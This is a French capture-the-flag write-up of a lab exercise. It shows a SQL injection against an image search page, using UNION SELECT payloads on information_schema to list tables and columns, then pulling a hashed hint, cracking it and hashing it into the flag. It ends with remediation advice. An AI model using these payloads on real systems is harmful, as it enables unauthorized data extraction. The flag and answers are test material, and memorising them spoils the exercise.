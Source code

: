 
---

# Exploitation de vulnérabilité SQL pour obtenir un flag

## Description de la faille

Une vulnérabilité SQL Injection permet d'extraire des données sensibles de la base de données. En exploitant cette faille, nous avons pu découvrir une table d'intérêt, obtenir des informations sur ses colonnes, et finalement extraire et transformer des données pour obtenir le flag.

## Étapes pour découvrir la faille

### 1. Initialiser l'injection SQL pour vérifier la vulnérabilité

En essayant la condition toujours vraie `1 OR 1=1`, nous obtenons :

```sql
ID: 1 OR 1=1; --
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR 1=1; --
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR 1=1; --
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR 1=1; --
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR 1=1; --
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

### 2. Lister toutes les tables de la base de données

En utilisant une requête UNION pour lister les tables, nous trouvons :

```sql
ID: 1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables; --
Title: list_images
Url : 1
```

La table `list_images` semble intéressante, nous allons nous concentrer dessus.

### 3. Lister toutes les colonnes de la table `list_images`

Nous listons les colonnes de la table `list_images` avec les requêtes suivantes :

```sql
ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'list_images'; --
```

Les colonnes découvertes sont :

```sql
ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: id
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: url
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: title
Url : list_images

ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
Title: comment
Url : list_images
```

### 4. Extraire les données des colonnes intéressantes

Nous allons essayer de voir ce qu'il y a dans chacune de ces colonnes. En vérifiant les colonnes `title` et `comment`, nous trouvons des informations intéressantes :

```sql
ID: 1 AND 1=1 UNION SELECT title, comment FROM list_images; --
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

### 5. Décrypter et transformer les données pour obtenir le flag

1. **Décrypter le mot de passe** :
   - `1928e8083cf461a51303633093573c46` correspond à `albatroz` en MD5.

2. **Calculer le hash SHA-256** :
   - `albatroz` en SHA-256 donne `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

### Conclusion

En suivant ces étapes, nous avons pu exploiter une vulnérabilité SQL Injection pour extraire des données sensibles et finalement obtenir le flag.

## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Recommandations pour remédier à cette faille

Pour corriger et prévenir les failles d'injection SQL, suivez ces bonnes pratiques :

1. **Utilisation de Requêtes Paramétrées (Préparées)** :
   - Les requêtes paramétrées permettent de séparer le code SQL des données utilisateur. Cela empêche les données utilisateur d'être interprétées comme des parties de la commande SQL.

2. **Utilisation des ORM (Object-Relational Mapping)** :
   - Les ORM sont des outils qui permettent de manipuler la base de données en utilisant des objets du langage de programmation plutôt que des commandes SQL directes.

3. **Validation et Échappement des Entrées Utilisateur** :
   - La validation des entrées consiste à vérifier que les données saisies par l'utilisateur sont conformes aux attentes (format, longueur, type, etc.). L'échappement consiste à transformer les caractères spéciaux en leur équivalent sécurisé.

4. **Limiter les Privilèges de la Base de Données** :
   - Restreindre les privilèges des comptes de base de données utilisés par l'application pour limiter l'impact potentiel d'une injection SQL.

5. **Utilisation des Outils de Détection et de Prévention des Intrusions (IDS/IPS)** :
   - Les IDS/IPS sont des systèmes qui surveillent le trafic réseau et les activités de l'application pour détecter et prévenir les tentatives d'attaque.

6. **Tests de Sécurité et Audits Réguliers** :
   - Les tests de sécurité consistent à analyser et tester régulièrement votre application pour identifier et corriger les failles potentielles.

7. **Utilisation de Captchas** :
   - Les captchas permettent de différencier les utilisateurs humains des scripts automatisés, ce qui peut réduire le risque d'attaques automatisées.

8. **Formation et Sensibilisation des Développeurs** :
   - La sensibilisation des développeurs aux meilleures pratiques de sécurité est essentielle pour prévenir les vulnérabilités.

En suivant ces recommandations, vous pouvez considérablement réduire le risque d'injections SQL dans votre application et renforcer globalement la sécurité de votre infrastructure.

---
